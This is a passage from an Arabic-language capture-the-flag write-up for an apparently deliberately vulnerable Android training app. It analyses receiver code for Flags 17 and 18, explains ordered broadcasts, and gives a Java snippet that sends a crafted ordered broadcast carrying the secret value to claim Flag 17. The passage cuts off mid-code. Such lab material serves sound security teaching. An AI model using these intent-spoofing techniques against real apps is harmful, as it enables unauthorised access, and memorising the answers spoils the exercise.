### Flag 17

#### تحليل الكود

```java
    public static String FlagSecret = "give-flag-17";

    public void onReceive(Context context, Intent intent) {
        Log.i("Flag17Receiver.onReceive", Utils.dumpIntent(context, intent));
        if (isOrderedBroadcast()) {
            if (intent.getStringExtra("flag").equals(FlagSecret)) {
                success(context, FlagSecret);
                return;
            }
            Bundle bundle = new Bundle();
            bundle.putBoolean("success", false);
            setResult(0, "Flag 17 Completed", bundle);
        }
    }
```

الموضوع زي اللي فات بس محتاجين نبعته كـ ordered broadcast ؟

##### Non-ordered vs. Ordered Broadcasts

في الـ non-ordered mode، الـ broadcasts بتتبعت لكل الـ receivers المهتمة "في نفس الوقت". يعني مافيش receiver يقدر يتدخل أو يمنع غيره من الشغل. مثال على كده الـ [ACTION_BATTERY_LOW](http://developer.android.com/reference/android/content/Intent.html#ACTION_BATTERY_LOW).

في الـ ordered mode، الـ broadcasts بتتبعت لكل receiver بالترتيب (حسب الـ [android:priority](http://developer.android.com/guide/topics/manifest/intent-filter-element.html#priority) attribute للـ [intent-filter](http://developer.android.com/guide/topics/manifest/intent-filter-element.html) element في الـ manifest file) وممكن receiver يوقف الـ broadcast فالـ receivers اللي أولويتها أقل مش هتاخده (مش هتشتغل خالص). مثال على النوع ده الـ [ACTION_NEW_OUTGOING_CALL](http://developer.android.com/reference/android/content/Intent.html#ACTION_NEW_OUTGOING_CALL).

#### الحل

```java
Intent intent = new Intent();  
intent.putExtra("flag","give-flag-17");  
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag17Receiver"); 
sendOrderedBroadcast(intent, null);
```

### Flag 18

#### تحليل الكود

```java
   public static String SECRET_FLAG = "giving-out-flags";
 
   public void onCreate(Bundle bundle) {
        Intent intent = new Intent("io.hextree.broadcast.FREE_FLAG");
        intent.putExtra("flag", this.f.appendLog(this.flag));
        intent.addFlags(8);
        sendOrderedBroadcast(intent, null, new BroadcastReceiver() { 
            @Override // android.content.BroadcastReceiver
            public void onReceive(Context context, Intent intent2) {
                String resultData = getResultData();
                Bundle resultExtras = getResultExtras(false);
                int resultCode = getResultCode();
                Log.i("Flag18Activity.BroadcastReceiver", "resultData " + resultData);
                Log.i("Flag18Activity.BroadcastReceiver", "resultExtras " + resultExtras);
                Log.i("Flag18Activity.BroadcastReceiver", "resultCode " + resultCode);
                if (resultCode != 0) {
```